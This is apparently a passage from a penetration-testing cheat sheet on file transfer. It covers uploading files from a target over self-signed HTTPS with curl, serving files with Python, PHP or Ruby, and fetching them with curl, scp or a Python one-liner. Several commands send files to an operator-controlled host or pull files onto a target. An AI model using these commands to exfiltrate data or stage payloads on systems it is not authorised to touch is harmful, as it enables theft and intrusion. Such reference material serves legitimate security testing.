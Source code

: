 1. Create self-signed certificate

   ```bash
   openssl req -x509 -out /tmp/server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
   ```

2. Start Web Server in a new folder

   ```bash
   mkdir /tmp/https && cd /tmp/https
   sudo python3 -m uploadserver 443 --server-certificate /tmp/server.pem
   ```

3. Upload (multiple files can be specified)

   ```bash
   curl -X POST https://[IP]/upload -F 'files=@[FILE]' --insecure
   ```

   `--insecure` since we used a self-signed certificate that we trust.

#### Server upload

1. Run a server on my machine

   ```bash
   # Different methods depending on what is available on the target
   python3 -m http.server 8000	
   python2.7 -m SimpleHTTPServer
   php -S 0.0.0.0:8000
   ruby -run -ehttpd . -p8000
   ```

- Download from the target

  ```bash
  curl [URL] -o [FILE_NAME]
  ```

#### SCP

```bash
scp [FILE] user@targethost:[OUTPUT LOCATION]
```

## Programming Languages

### Download

#### Python 

```bash
python3 -c 'import urllib.request;urllib.request.urlretrieve("[LINK]", "[FILE]")'
```

You can also use `python2.7`

Notice that the `LINK` should include the path including the file.
